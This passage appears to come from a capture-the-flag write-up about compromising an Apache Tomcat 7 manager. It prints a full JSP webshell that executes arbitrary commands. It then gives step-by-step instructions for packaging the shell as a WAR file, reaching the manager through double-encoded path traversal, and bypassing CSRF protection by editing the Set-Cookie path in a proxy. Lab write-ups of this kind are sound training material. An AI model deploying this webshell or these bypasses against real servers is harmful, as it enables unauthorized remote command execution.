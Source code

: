 We can use the simple `JSP` webshell provided in the challenge;
```js
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```
We'll save the shell as a local file named `index.jsp`. We'll then create a directory named `webshell` and copy the `index.jsp` file into it. On kali linux, we'll need to install the `default-jdk` package installed to create the `.war` file. While *in the `webshell` directory*, run the command `jar -cvf ../webshell.war *`, note the trailing '`*`' to include everything in the current directory. The `-c` flag is to create the archive, `-v` for verbosity, and `-f` to specify the output filename.

`cd ..` to go up a directory, and we should have a new `webshell.war` file, this is the one we will be uploading to the `tomcat` manager. Unfortunately, when we attempt to upload the file through the `tomcat` manager, we get a 404-error because the 'deploy' URL does not have our double-decoded characters in the URL. To get avoid this, we can either recreate the 'deploy' page with the correct `<form action=` URL, then 'deploy' our webshell from that page. We could also modify the request in-flight using our `zaproxy` to point to the correct URL, or use the browser dev-tools to modify the page in-place before deploying the webshell. Because this instance is using `tomcat 7`, there's also additional `CSRF` protection that we need to bypass. To do so, we either need a valid `JSESSIONID`, which can be obtained from the original response to our login request. Or, we can remove the path element from teh `set-cookie` header.

To start, we'll 'inspect element' on the 'Deploy' button and change the value of the `<form method="post" action="` field to include our double-decode chars, i.e. `libcurl.so/examples/servlets/%252e%252e/%252e%252e/manager/html/upload?org.apache.catalina.filters.CSRF_NONCE=CC9C24264AFAE6CE2F78517345A4D354`. Unforunately, due to the CSRF protection, we'll be met with a 403 Unauthorized error. To get around this, repeat the steps to get to the management page by navigating to `libcurl.so/examples/servlets/%252e%252e/%252e%252e/manager/html` and intercept the request in `zaproxy`. In `zaproxy`, we need to set a 'Custom HTTP Breakpoint' to get our proxy to intercept the response and allow us to edit the 'Path=' value in the 'Set-Cookie' header. Click the red 'X' icon in the top row of `zaproxy` to set the breakpoint. For location, select 'Response Header', for 'Match' select 'Contains', and for the 'String' field, input 'Cookie'. This will cause zap to break on the *response* before loading it in our browser. When the response breaks/catches, change the 'Path' field in the 'Set-Cookie' header to `Path=/;`, this will make our browser use the 'JSESSIONID' generated when we first login to the manager page be used for every request we make. Now, we'll again use dev-tools to change the URL the 'Deploy' button uploads too to `/examples/%252e%252e/manager/html/upload?org.apache.catalina.filters.CSRF_NONCE=` (leave the `CSRF_NONCE` value as it appears in the pages HTML). If we set everything correctly, our webshell should upload and be available in the 'Applications' table of the manager page as `/webshell`.
